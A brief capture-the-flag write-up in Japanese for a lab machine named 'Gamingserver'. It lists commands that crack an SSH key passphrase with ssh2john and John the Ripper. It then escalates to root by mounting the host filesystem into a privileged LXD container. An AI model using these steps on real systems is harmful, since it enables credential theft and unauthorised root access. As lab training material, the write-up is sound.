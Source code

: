 ```yaml
---
title: "Gamingserver"
date: 2024-03-16T13:24:19+09:00
draft: false
---
```


### user.txt

- /secret
  - secretKey がある -> ssh 鍵
- /uploads
  - dict.lst -> ssh パスワード鍵候補？
- ```ssh2john secretKey > hash.txt```
- ```john —wordlist=dict.lst hash.txt```
  - ssh ログイン
  - ユーザ名はソースコードから読む
  - このパターンどうにかならんのか

### root.txt

- john が lxd ユーザなのでこれを使う
- alpine イメージのビルド
  - ```git clone https://github.com/saghul/lxd-alpine-builder.git```
  - ```cd .lxd-alpine-builder```
  - ```/build-alpine```
- イメージ作成（管理者権限付き）
  - ```lxc image import ./alpine-v3.10-x86_64-20191008_1227.tar.gz --alias myContainer```
  - ```lxc init myContainer myVM -c security.privileged=true```
  - ```lxc config device add myVM mydevice disk source=/ path=/mnt/root recursive=true```
- 起動
  - ```lxc start myVM```
  - ```lxc exec myVM /bin/sh```

